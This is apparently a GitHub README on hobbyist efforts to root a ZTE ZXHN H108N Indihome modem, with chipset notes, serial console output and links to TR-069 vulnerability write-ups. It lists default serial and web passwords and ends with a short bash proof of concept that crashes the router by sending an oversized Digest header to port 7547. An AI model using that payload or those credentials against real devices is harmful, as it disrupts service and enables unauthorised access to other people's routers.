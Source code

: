 # Oprek Modem Indihome Huawei ZXHN H108N

Goal:

- [ ] Gain root access (not yet works)
- [ ] Make it as Access Point, WAN From ethernet (not yet works)


If you have Broadcom version, you can use OpenWRT:
https://openwrt.org/toh/zte/zxhnh108n

This device is Ralink chipset, No root access
- Ralink RT63365E
- Ralink RT63087N


## Related Buildroot/toolchain ?

- https://github.com/executabls/dsl-n14u_gpl/wiki/Detailed-Device-Specs
- https://github.com/HyGw/test
- https://github.com/Sirherobrine23/Dir819gpl_code

## Serial Connection

No root access here.

![Huawei ZXHN H108N Serial Line](images/back-open-serial.jpg)

Password for Serial: theworldinyourhand

for web login: user: support, pwd: theworldinyourhand

**Some Information:**

```
ZTE> sys version

 RAS version: ZXHN H108NV4.0.1a_ZRQ_ID_D67                                     
 System   ID: $2.12.186.0(G94.BY.4)3.20.39.20  20140909_v004  [Sep  9 2014 10:12:52]
 romRasSize: 1664518 
 system up time:     0:10:20 (f273 ticks)
 bootbase version: VTC_SPI_8M1.16 |  2012/12/26

ZTE> sys atsh

RAS version            : ZXHN H108NV4.0.1a_ZRQ_ID_D67                                    
romRasSize             : 1664518
bootbase version       : VTC_SPI_8M1.16 |  2012/12/26
Product Model          : ZXHN H108N
Serial Number          : ZTEERQCG5V02440
MAC Address            : 343759D9B8D0
Default Country Code   : FF
Boot Module Debug Flag : 00
RomFile Version        : 16
RomFile Checksum       : 7076
RAS F/W Checksum       : 9605
SNMP MIB level & OID   : 050000000100000002000000030000000400000005
Main Feature Bits      : 86
Other Feature Bits     :
93 17 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 13 00 00 00

ZTE> sys feature

IPX: yes
IP ONLY: no
AUI: no
AB ADAPTER: no
IDSL ONLY: no
IDSL: no
INTERNAL HUB: no
VLAN_8021Q[web]: no
PKT QoS[web]: no
ACL[web]: no
Filter[web]: no
ADSL[web]: yes
USB[web]: no
Firewall[web]: no
Reverse ETH Ports[web]: no
Half Bridge[web]: no
dy.fi DNS: yes
DDNS: yes
tr069: yes

```

## Rooting

- Activate uPNP and ACS

**Vulnerabilities:**

- https://sudonull.com/post/59881-Too-many-cooks-or-hacking-the-Internet-with-TR-069
- Maybe work? https://www.exploit-db.com/exploits/27044

**Crash/Reboot PoC:**

``` bash
repeat(){ for i in {1..600}; do echo -n "$1"; done; }
curl -H "Authorization: Digest username=$(repeat x)" 192.168.1.1:7547/tr069

```